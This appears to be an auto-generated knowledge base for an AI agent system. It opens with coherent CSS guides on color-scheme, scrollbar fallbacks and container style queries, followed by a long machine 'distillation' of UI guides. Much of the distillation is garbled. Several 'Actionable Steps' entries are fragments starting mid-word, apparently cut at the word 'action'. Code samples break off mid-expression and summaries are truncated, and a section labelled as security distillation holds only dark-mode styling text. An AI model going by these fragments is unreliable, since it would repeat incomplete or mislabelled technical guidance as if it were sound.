  @supports (color: light-dark(white, black)) {
    --accent-color: light-dark(var(--brand-accent-light), var(--brand-accent-dark));
  }

  /* MANDATORY: Automatically adapt native UI to user system preferences */
  color-scheme: light dark;

  /* Example inherited color property */
  accent-color: var(--accent-color);
}

pre, code {
  color-scheme: dark;

  /* **Mandatory**: any inherited color properties must be set again, even if to the same design tokens */
  accent-color: var(--accent-color);
}
```

### Fallbacks & browser support for scrollbar-color

Baseline status for scrollbar-color: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 121 (Jan 2024), Edge 121 (Jan 2024), Firefox 64 (Dec 2018), and Safari 26.2 (Dec 2025).

This feature is progressive enhancement and does not always require fallbacks.

If the styling is important and the user's Baseline target is "Baseline Widely Available" or earlier, you SHOULD include the non-standard `::-webkit-scrollbar` pseudo-elements as fallbacks.

Wrap legacy fallbacks in an `@supports not (scrollbar-color: auto)` block to prevent conflicts between standard properties and legacy WebKit selectors in browsers that support both natively.

If you are using custom properties to define colors, these will cascade to the legacy WebKit selectors automatically. You do NOT need to duplicate them.

```css
/* Legacy fallback for WebKit/Blink browsers */
@supports not (scrollbar-color: auto) {
  .scroller::-webkit-scrollbar {
    /* Must define base size in WebKit for custom colors to be visual */
    width: 12px;
    height: 12px;
  }

  .scroller::-webkit-scrollbar-thumb {
    background: var(--scrollbar-thumb);
  }

  .scroller::-webkit-scrollbar-track {
    background: var(--scrollbar-track);
  }
}
```

### Fallbacks & browser support for accent-color

accent-color has limited availability.
Supported by: Chrome 93 (Aug 2021), Edge 93 (Sep 2021), and Firefox 92 (Sep 2021).
Unsupported in: Safari.

The `accent-color` property is progressive enhancement.
Browsers that do not support this property will ignore it and use their default UI colors.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux, tdd, vcs]

### 📘 KNOWLEDGE: NEXUS_DESIGN-TOKEN-REACTIVITY.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Background & Overview

Often an author will need to make contextual changes to the design of a component. Historically authors would need to use selectors to apply such changes. This often meant that while many of their design tokens could exist as custom properties, higher-order design tokens could only be encoded as a selector pattern (i.e. using a class name or attribute convention) or as props/context in a JavaScript framework.

**Container style queries** allow authors to style elements based on the computed custom property value of an ancestor element. This means authors can write meaningful design token values within their stylesheets rather than relying on markup or JavaScript for presentation.

## How to implement

Implementing a reactive design token using a container style query is quite straightforward:

1. Set the higher-order design token as a custom property on a container. This does not need to be a registered custom property.
2. Use the `@container style()` rule to query the value of that custom property.
3. Apply the appropriate styles to a descendant element within the container.

A few things to keep in mind:

- The container being queried with a style query does not need to have a `container-type` or `container-name` set, however, a `container-name` can allow for more specific querying.
- The container itself cannot be styled by the container style query.

The following is a basic example of the above implementation steps.

```html
<div class="features">
  <div class="card"></div>
  <div class="card"></div>
</div>
<div class="bugs">
  <div class="card"></div>
  <div class="card"></div>
  <div class="card"></div>
  <div class="card"></div>
</div>
```

```css
.features {
  --density: spacious;
}

.bugs {
  --density: compact;
}

@container style(--density: compact) {
  .card {
    padding: 8px;
  }
}

@container style(--density: spacious) {
  .card {
    padding: 24px;
  }
}
```

## Fallback strategies

Container style queries has limited availability.
Supported by: Chrome 111 (Mar 2023), Edge 111 (Mar 2023), and Safari 18 (Sep 2024).
Unsupported in: Firefox.

Until there is Baseline support for container style queries it is NOT RECOMMENDED that they be used for core features that must be available across all browsers, since it is not simple to create a fallback for them that does not take away from their benefits or that have their own limitations. For example, if a UI density user preference is not deemed to be a core feature that must be available across all experiences, then container style queries can be use to implement the feature without a fallback.

### Using selectors instead

For core features, an alternate approach using selectors should be used. This example uses a `data-density` attribute to encode the density design token in the markup rather than as a custom property:

```html
<div class="features" data-density="spacious">
  <div class="card"></div>
  <div class="card"></div>
</div>
<div class="bugs" data-density="compact">
  <div class="card"></div>
  <div class="card"></div>
  <div class="card"></div>
  <div class="card"></div>
</div>
```

```css
/* This example uses `:where()` to avoid increasing specificity */
:where([data-density="compact"]) .card {
  padding: var(--card-padding-compact);
}

:where([data-density="spacious"]) .card {
  padding: var(--card-padding-spacious);
}
```

A major limitation of this fallback approach is that it does not support nesting elements with the `data-density` attribute set, since the selector specificity is the same, order of appearance will be used to determine the styles (i.e. `[data-density="spacious"]` will always take precendence over `[data-density="compact"]`).

### Using style queries as a progressive enhancement

While it’s NOT RECOMMENDED, if you want to use style queries as a progressive enhancement for a core feature, then to avoid duplication you can create some custom properties, then include the style queries after. Make sure the fallback approach uses `:where()` when selecting the container elements to avoid increasing the specificity.

```css
.card {
  --card-padding-compact: 8px;
  --card-padding-spacious: 24px;
}

:where([data-density="compact"]) .card {
  padding: var(--card-padding-compact);
}

:where([data-density="spacious"]) .card {
  padding: var(--card-padding-spacious);
}

/* Use style queries as a progressive enhancement: same specificity, so order of appearance is used */

@container style(--density: compact) {
  .card {
    padding: var(--card-padding-compact);
  }
}

@container style(--density: spacious) {
  .card {
    padding: var(--card-padding-spacious);
  }
}
```

### Feature-checking with just CSS

If you need to feature check container style queries to conditionally display some UI that relies on it, you can use a style query to do so:

```css
:root {
  --style-queries-supported: check;
}

.density-toggle {
  display: none;
}

@container style(--style-queries-supported) {
  .density-toggle {
    display: revert;
  }
}
```

### Feature-checking with JavaScript

For feature-checking with JavaScript, it is slightly more complicated as the `CSSContainerRule` interface existed prior to the addition of container style queries, so it is unreliable for this purpose. Instead, you’ll need to check the computed value of a known property that is being set with a style query.

This example uses a custom property as it will have no visual effect:

```css
:root {
  --style-queries-supported: check;
}

@container style(--style-queries-supported: check) {
  body {
    --style-queries-supported: yes;
  }
}
```

Then check the computed value in JavaScript like this:

```js
if (getComputedStyle(document.body).getPropertyValue("--style-queries-supported") === "yes") {
  // Use container style queries
} else {
  // Use fallback strategy
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_SECURITY.MD

> **VERSION**: v3 | **Last Updated**: 26/05/2026


## 🎓 SECURITY WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Dark mode
> **Origin**: `guides/user-experience/[dark-mode.md](NEXUS_DARK-MODE.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
The `color-scheme` property indicates which color schemes (such as light or dark) your page supports. This informs the browser that it can automatically theme native UI elements—like scrollbars, form controls, and the default canvas background—to match your site's design and help minimize white flashes during initial loading.


MANDATORY: To help prevent a "flash of un-themed content" (FOUC), place a `<meta>` tag in your `<head>` to ensure the browser knows which themes you support before it even starts rendering. While this `<meta>` tag helps to avoid FOUC by setting the initial canvas color early, it may not completely eliminate flashes in all browsers or loading conditions.

```html
<!-- MANDATORY: Declare support for both light and dark themes -->
<meta name="color-scheme" content="light dark">
```


MANDATORY: Apply the `color-scheme` property to the `html` element or the `:root` pseudo-class. Browsers specifically look to the root element to determine the theme for the entire viewport—including the root scrollbars and the initial "canvas" background. If applied only to the `body`, these global UI surfaces may remain in light mode because the `body` does not...

#### 🔗 Traceability:
- [Source Context]([dark-mode.md](NEXUS_DARK-MODE.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Background & Overview
> **Origin**: `guides/user-experience/[design-token-reactivity.md](NEXUS_DESIGN-TOKEN-REACTIVITY.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Often an author will need to make contextual changes to the design of a component. Historically authors would need to use selectors to apply such changes. This often meant that while many of their design tokens could exist as custom properties, higher-order design tokens could only be encoded as a selector pattern (i.e. using a class name or attribute convention) or as props/context in a JavaScript framework.

**Container style queries** allow authors to style elements based on the computed custom property value of an ancestor element. This means authors can write meaningful design token values within their stylesheets rather than relying on markup or JavaScript for presentation.


Implementing a reactive design token using a container style query is quite straightforward:

1. Set the higher-order design token as a custom property on a container. This does not need to be a registered custom property.
2. Use the `@container style()` rule to query the value of that custom property.
3. Apply the appropriate styles to a descendant element within the container.

A few things to keep in mind:

- The container being queried with a style query does not need to have a `contai...

#### 🔗 Traceability:
- [Source Context]([design-token-reactivity.md](NEXUS_DESIGN-TOKEN-REACTIVITY.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_UI-UX.MD

## 🎓 UI-UX WISDOM DISTILLATION [v1100] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Accessible Error Announcement
> **Origin**: `ui-ux/NEXUS_ACCESSIBLE-ERROR-ANNOUNCEMENT.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action has occurred.

#### 🔗 Traceability:
- [Source Context](NEXUS_ACCESSIBLE-ERROR-ANNOUNCEMENT.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `ui-ux/NEXUS_ANIMATE-TO-FROM-TOP-LAYER.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v4 | **Last Updated**: 26/05/2026

Elements that render in the "top layer" (like `<dialog>`, elements with the `popover` attribute, or tooltips) have historically been difficult to animate because they toggle between `display: none` and a visible state. Modern CSS provides `@starting-style`, `transition-behavior: allow-discrete`, and the `overlay` property to enable smooth entry and exit transitions for these elements. Note that native CSS nesting is used in the examples below.


To animate the `display` property, you must set `transition-behavior: allow-discrete`. This allows the element to remain visible during its exit transition. If using transition shorthands, be sure to place the `transition-behavior: allow-discrete` afterwards to prevent the shorthand from negating it.


When an element moves in or out of the top layer, it must transition the `overlay` property. This ensures the element stays in the top layer for the duration of the animation, preventing it from being clipped by other elements or the viewport prematurely.


Use the `@starting-style` at-rule to define the styles an element should transition *from* when it is first rendered or...

#### 🔗 Traceability:
- [Source Context](NEXUS_ANIMATE-TO-FROM-TOP-LAYER.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Animate to Intrinsic Sizes
> **Origin**: `ui-ux/NEXUS_ANIMATE-TO-INTRINSIC-SIZES.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action (e.g., `:hover` or a state class).
4.  **Perform calculations (Optional)**: Use `calc-size()` if you need to perform math on an intrinsic size (e.g., `auto + 2rem`). `calc-size()` also supports the `any` keyword for basis-agnostic calculations.

#### 🔗 Traceability:
- [Source Context](NEXUS_ANIMATE-TO-INTRINSIC-SIZES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Animated Select Picker
> **Origin**: `ui-ux/NEXUS_ANIMATED-SELECT-PICKER.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The customizable select API offers a declarative, CSS-driven way to animate `<select>` elements and their dropdown pickers. By combining `appearance: base-select` with modern CSS animation techniques—such as `@starting-style` and the `allow-discrete` transition behavior—you can create fluid, premium UI transitions for top-layer elements without relying on heavy JavaScript libraries.

Previously, animating native select dropdowns was impossible because their UI was rendered outside the accessible viewport constraints. With `appearance: base-select`, the picker becomes styleable and animatable like any other page element.


To implement an animated select picker:

1. **Opt-in to customization:** Apply `appearance: base-select` to both the `<select>` element and the `::picker(select)` pseudo-element.
2. **Enable auto-sizing transitions (Optional):** Define `interpolate-size: allow-keywords` (usually on `:root`) to allow the browser to transition between discrete metric values like `height: auto` and `height: 0`.
3. **Animate the top-layer container:** Apply standard entry/exit styles to `::picker(select)`. To make sure th...

#### 🔗 Traceability:
- [Source Context](NEXUS_ANIMATED-SELECT-PICKER.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Apply WebGL shaders to HTML content
> **Origin**: `ui-ux/NEXUS_APPLY-WEBGL-SHADERS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(h

#### 🔗 Traceability:
- [Source Context](NEXUS_APPLY-WEBGL-SHADERS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 System Architecture
> **Origin**: `ui-ux/NEXUS_ARCHITECTURE.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The Human-AI Nexus is built as a modular orchestration system.


The central brain that coordinates the flow between phases. It ensures that data from the Audit phase is correctly passed to Planning, and that Execution only happens after approval.


A collection of markdown files in `agent/` that define the persona, responsibilities, and guardrails for different AI agents (e.g., Architect, Engineer, QA).


Technical standards and "best practice" snippets ...

#### 🔗 Traceability:
- [Source Context](NEXUS_ARCHITECTURE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build an address form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-ADDRESS-FORM.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action that shows progress and makes the next step obvious. For example, label the submit button on your delivery address form **Proceed to Payment** rather than **Continue** or **Save**.

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-ADDRESS-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Use the CSS :autofill pseudo-class to highlight form fields that have been autofilled by the browser and not edited by the user
> **Origin**: `ui-ux/NEXUS_AUTOFILL-HIGHLIGHT-INPUTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use the CSS `:autofill` to highlight fields that have (or have not been) autofilled, to help guide the user to successful form completion.


To highlight a form field that has been autofilled by the browser (and not edited by the user) add a selector to your CSS using the `:autofill` class. This can be used for an `<input>`, `<select>`, or `<textarea>` element.

When styling autofilled states, you must adhere to accessibility best practices:
- **Multiple State Indicators**: Do not rely on border color alone to indicate the autofilled state. Use multiple indicators such as border thickness and custom background shading to ensure the state is perceivable.
- **Preserve Focus Indicators**: Never remove focus outlines (`outline: none`) without providing a clear, high-contrast replacement for keyboard users.

The following example uses `:autofill` to set a custom border and background, along with explicit focus styles:

```css
input:autofill,
input:-webkit-autofill {
  /* Multiple indicators: use both a distinct border and background color via box-shadow to avoid color-only state */
  border: 2px solid #2e7d32;
  box-...

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-HIGHLIGHT-INPUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a payment form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-PAYMENT-FORM.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action that shows progress and makes the next step obvious. For example, label the submit button on your delivery address form **Proceed to Payment** rather than **Continue** or **Save**.

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-PAYMENT-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a sign-in form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-SIGN-IN-FORM.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use cross-platform browser features to build sign-in forms that are secure, accessible and easy to use.

If users ever need to sign in to your site, then good sign-in form design is critical. This is especially true for people on poor connections, on mobile, in a hurry, or under stress. Poorly designed sign-in forms get high bounce rates. Each bounce could mean a lost customer and a disgruntled user—not just a missed sign-in opportunity.


Outlined below are the most important guidelines for building successful sign-in forms.


Make the most of the elements and attributes built for creating forms:

- `<form>`, `<input>`, `<label>`, and `<button>`
- `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.


To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.


Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and enab...

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-SIGN-IN-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a sign-up form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-SIGN-UP-FORM.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use cross-platform browser features to build sign-up forms that are secure, accessible and easy to use.

If users ever need to sign up to your site, then good sign-up form design is critical. This is especially true for people on poor connections, on mobile, in a hurry, or under stress. Poorly designed sign-up forms get high bounce rates. Each bounce could mean a lost customer and a disgruntled user—not just a missed sign-up opportunity.


Outlined below are the most important guidelines for building successful sign-up forms.


Make the most of the elements and attributes built for creating forms:

-   `<form>`, `<input>`, `<label>`, and `<button>`
-   `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.


To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.


Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and ...

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-SIGN-UP-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Brand-Consistent Forms
> **Origin**: `ui-ux/NEXUS_BRAND-CONSISTENT-[FORMS.MD](NEXUS_FORMS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Customizing standard HTML form elements like checkboxes and radio buttons has historically been difficult. Developers often faced a choice between using the browser defaults or building custom components from scratch. Building custom controls is time-consuming and can easily lead to accessibility issues or missing states (like the indeterminate state for checkboxes).

The CSS property `accent-color` provides a simple way to bring your brand color to built-in HTML form inputs with a single line of CSS, without sacrificing accessibility or built-in browser features.


To apply your brand color to form controls:

1. **Identify your brand color:** Choose a color that represents your brand.
2. **Apply the `accent-color` property:** Add `accent-color` to the element or a container element (like `body` or a specific form) in your CSS.
3. **Support Dark Mode (Optional but Recommended):** Use `color-scheme` to let the browser know your site supports dark mode, and adjust the `accent-color` if necessary for better contrast.


```css
:root {
  --brand-color: #6200ee;
}

/* Apply accent-color to the body or a specific co...

#### 🔗 Traceability:
- [Source Context](NEXUS_BRAND-CONSISTENT-[FORMS.MD](NEXUS_FORMS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Branded Select Styling
> **Origin**: `ui-ux/NEXUS_BRANDED-SELECT-STYLING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The customizable select API offers a declarative, CSS-driven way to style `<select>` elements to perfectly match your brand's design system. By opting into `appearance: base-select`, you gain access to the internal shadow DOM of the select element, allowing you to style the button, the options picker list, the arrow icon, and the checkmark indicator using standard CSS properties.

Previously, achieving a fully branded select required rebuilding the control from scratch with JavaScript, which often broke accessibility, keyboard navigation, and native form integration. With `appearance: base-select`, you get a custom look while the browser handles focus management, top-layer rendering, and accessibility bindings.


To implement branded select styling:

1. **Opt-in to customization:** Apply `appearance: base-select` to both the `<select>` element and the `::picker(select)` pseudo-element (which targets the drop-down list of options).
2. **Structure the custom button (Optional):** Define a `<button>` element directly inside the `<select>` to replace the default trigger. Use the `<selectedcontent>` element inside this button...

#### 🔗 Traceability:
- [Source Context](NEXUS_BRANDED-SELECT-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Breaking up long tasks
> **Origin**: `ui-ux/NEXUS_BREAK-UP-LONG-TASKS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Heavy computations or long loops can block the main thread, causing the page to become unresponsive. To prevent this, you should yield control back to the browser periodically. The `scheduler.yield()` API allows you to pause a long task and let the browser handle user input or rendering before continuing.


Use `scheduler.yield()` inside async functions to break up work.

```javascript
async function processLargeArray(items) {
  // DO: Set a time-based deadline 50 milliseconds into the future. 50
  // milliseconds is the boundary for when a task becomes a long task.
  let deadline = performance.now() + 50; // 50ms budget

  for (const item of items) {
    // Process the item
    processItem(item);
    
    // MANDATORY: Yield to the main thread periodically to keep the UI
    // responsive. This can be done by checking if the deadline set earlier
    // has been exceeded. When it has been, yield, then reset the deadline
    // another 50 milliseconds into the future.
    if (performance.now() >= deadline) {
      await scheduler.yield();
      deadline = performance.now() + 50;
    }
  }
}
```


Sched...

#### 🔗 Traceability:
- [Source Context](NEXUS_BREAK-UP-LONG-TASKS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Core implementation
> **Origin**: `ui-ux/NEXUS_CAROUSEL-SNAP-HIGHLIGHTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Scroll-state container queries allow you to style elements based on their current scroll state, such as whether an element is "stuck" (via sticky positioning) or "snapped" (via scroll snapping). This enables carousel or gallery experiences where the active item can be visually distinguished without relying on JavaScript intersection observers or scroll event listeners.


To highlight snapped items, you must establish a scroll-snap container, define the snap targets as scroll-state containers, and then query that state to style descendants.


The parent container must have `scroll-snap-type` enabled.

```html
<div class="carousel">
  <div class="carousel-item">
    <div class="card">Product 1 content</div>
  </div>
  <div class="carousel-item">
    <div class="card">Product 2 content</div>
  </div>
</div>
```

```css
.carousel {
  display: flex;
  overflow-x: auto;
  /* MANDATORY: Enable scroll snapping on the container */
  scroll-snap-type: x mandatory;
}
```


Each item in the carousel that should be tracked for snapping must be declared as a `scroll-state` container.

```css
.carousel-item {
  /...

#### 🔗 Traceability:
- [Source Context](NEXUS_CAROUSEL-SNAP-HIGHLIGHTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementing state-based container styling
> **Origin**: `ui-ux/NEXUS_CHILD-STATE-BASED-STYLING.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions, such as a localized theme toggle reacting to a checkbox (`:checked`), a form group highlighting an error (`:invalid`), or a card elevating when a child link is focused (`:focus-within`).

#### 🔗 Traceability:
- [Source Context](NEXUS_CHILD-STATE-BASED-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_COMPLEX-SHAPES.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions from `0` to `1` (like `0.5` for 50%) instead of absolute pixels.

> **Luminance vs. Alpha Masking**: By default, SVG masks use **luminance** (brightness) to determine opacity, where white reveals, black hides, and gray creates semi-transparency. If you want the mask to use the **alpha channel** (transparency) of your SVG shapes instead, you can specify `mask-type: alpha;` in your CSS or `mask-type="alpha"` directly on the SVG `<mask>` element.

```html
<!-- White areas reveal content, gray creates semi-transparency, black or transparent hides it -->
<svg width="0" height="0">
  <defs>
    <!-- objectBoundingBox scales mask coordinates (0 to 1) with the element's size -->
    <mask id="custom-shape" maskContentUnits="objectBoundingBox">
      <!-- Use white shapes to defin

#### 🔗 Traceability:
- [Source Context](NEXUS_COMPLEX-SHAPES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Component-specific light/dark themes
> **Origin**: `ui-ux/NEXUS_COMPONENT-SPECIFIC-LIGHT-DARK-THEME.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While more commonly set on the root, the `color-scheme` property can be set on individual elements to force them into a different color scheme from the rest of the page.
This can be useful for components that must always be viewed in a specific color scheme (e.g. always in dark or light mode).

Example use cases include:
- Elements that are often in dark mode even on light mode pages for aesthetic reasons, e.g. code blocks, media players, photo galleries
- Areas that contain media designed for a light background (e.g. images, videos, illustrations, print previews) can be set to light mode even if the rest of the page is in dark mode.
- Elements whose color-scheme is controlled by a user-level setting, such as component previews
- Embeds that don't support both light and dark modes
- Design tools, maps, visualizations, games etc.


Not every element that uses lighter text on darker background in light mode or darker text on lighter background in dark mode needs a different `color-scheme`.
For example, a primary button may be rendered as blue with white text in light mode, but that does not warrant a `color-scheme: da...

#### 🔗 Traceability:
- [Source Context](NEXUS_COMPONENT-SPECIFIC-LIGHT-DARK-THEME.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Consistent Cross-Document Transitions
> **Origin**: `ui-ux/NEXUS_CONSISTENT-[CROSS-DOCUMENT-TRANSITIONS.MD](../other/NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Cross-document view transitions animate elements between two pages during a same-origin navigation. The browser captures a snapshot of the old page, navigates, then animates from the snapshot to the new page. If the new page has not finished loading critical resources — stylesheets, layout scripts, or key DOM elements — the transition animates to an incomplete or unstyled state. This causes visual glitches such as elements morphing to wrong positions, content reflowing mid-animation, or fallback fonts flashing to web fonts after the transition completes.


Use `blocking="render"` on critical `<link>` and `<script>` elements in the new page's `<head>`, and use `<link rel="expect">` to block rendering until specific DOM elements have been parsed. This ensures the browser does not begin the view transition animation until the new page's visual state is stable. The browser continues parsing the HTML in the background — only painting is deferred.


1. **MANDATORY:** Opt in to cross-document view transitions with the `@view-transition` CSS at-rule on both pages.
2. **MANDATORY:** Ensure critical stylesheets are in the `<...

#### 🔗 Traceability:
- [Source Context](NEXUS_CONSISTENT-[CROSS-DOCUMENT-TRANSITIONS.MD](../other/NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementing content-based container styling
> **Origin**: `ui-ux/NEXUS_CONTENT-BASED-STYLING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Historically, applying different layouts to a component based on its content required either JavaScript or conditional logic in your HTML templating language to inject modifier classes (like `.card--has-image` or `.card--text-only`).

The `:has()` pseudo-class eliminates this need by acting as a parent selector. It allows you to conditionally style a container element based on the presence or absence of specific descendant elements.

Using `:has()`, you can easily define distinct layout variations entirely in CSS based on a component's actual DOM content. You can also optionally combine it with `:not()` to explicitly target the *absence* of content to define default layouts.


**MANDATORY**: You must use the `:has()` selector on the container element to detect the presence of specific child content.

To build a component that changes its layout based on its content:

1. **Define the default styling**: Apply the base layout styles to the container element (e.g., a simple single-column stack).
2. **Apply content-based overrides**: Target the container with `:has([child-selector])` and apply the new layout styles for when...

#### 🔗 Traceability:
- [Source Context](NEXUS_CONTENT-BASED-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Custom Select Picker Layouts
> **Origin**: `ui-ux/NEXUS_CUSTOM-SELECT-PICKER-LAYOUTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


"Custom Select Picker Layouts" allow developers to break away from the traditional vertical list of options in a `<select>` dropdown. Using `appearance: base-select` and the `::picker(select)` pseudo-element, you can style the options list using modern CSS layout techniques like Grid or Flexbox. This is ideal for color pickers, emoji selectors, or product variants where a visual menu is more effective than a list.

The CSS property `appearance: base-select` unlocks the ability to style the internal parts of a `<select>` element. By targeting `select::picker(select)`, you can apply `display: grid` and position options in columns, creating a rich visual experience without custom JavaScript.


To implement a custom select picker layout:

1. **Activate Base Styling:** Apply `appearance: base-select` to both the `<select>` element and its internal picker pseudo-element `select::picker(select)`.
2. **Style the Picker Container:** Target `select::picker(select)` and apply `display: grid` (or `display: flex`). Define columns and gaps as you would for any container.
3. **Style Options:** Target the `<option>` elements to style ...

#### 🔗 Traceability:
- [Source Context](NEXUS_CUSTOM-SELECT-PICKER-LAYOUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_DECLARATIVE-DIALOG-POPOVER-CONTROL.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action) attributes to a `<button>`, the browser automatically handles open/close state changes, focus management, and accessibility bindings (such as `aria-expanded`). This declarative approach is recommended because it removes brittle boilerplate code, ensures interactions are functional immediately upon HTML parsing, and guarantees a robust, natively accessible user experience.

#### 🔗 Traceability:
- [Source Context](NEXUS_DECLARATIVE-DIALOG-POPOVER-CONTROL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Defer rendering heavy content
> **Origin**: `ui-ux/NEXUS_DEFER-RENDERING-HEAVY-CONTENT.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions. Modern web technologies allow you to defer the rendering workload for content that is not immediately visible, significantly boosting performance without breaking accessibility or user expectations.

To optimize rendering, you can utilize the CSS `content-visibility` property and the HTML `hidden="until-found"` attribute. While both aid performance, they serve distinct use cases.

#### 🔗 Traceability:
- [Source Context](NEXUS_DEFER-RENDERING-HEAVY-CONTENT.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Defer Work Until Scroll Ends
> **Origin**: `ui-ux/NEXUS_DEFER-WORK-UNTIL-SCROLL-ENDS.MD` | **Distilled At**: 26/05/2026

